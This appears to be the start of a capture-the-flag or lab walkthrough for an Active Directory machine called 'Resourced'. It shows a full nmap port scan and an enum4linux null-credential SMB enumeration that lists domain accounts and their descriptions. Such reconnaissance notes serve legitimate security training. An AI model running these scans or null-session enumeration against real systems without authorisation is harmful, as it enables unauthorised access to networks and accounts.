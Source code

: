 # Resourced

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.219.175
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 21:34 +08
Nmap scan report for 192.168.219.175
Host is up (0.17s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49703/tcp open  unknown
49776/tcp open  unknown
```

This is an AD machine.&#x20;

### SMB Guest Creds -> Creds

`enum4linux` allowed for null credentials, and it listed a lot of users along with a password!

```
$ enum4linux -u '' -p '' -a 192.168.219.175
<TRUNCATED>
======================================( Users on 192.168.219.175 )======================================                                                                                 
                                                                                             
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
```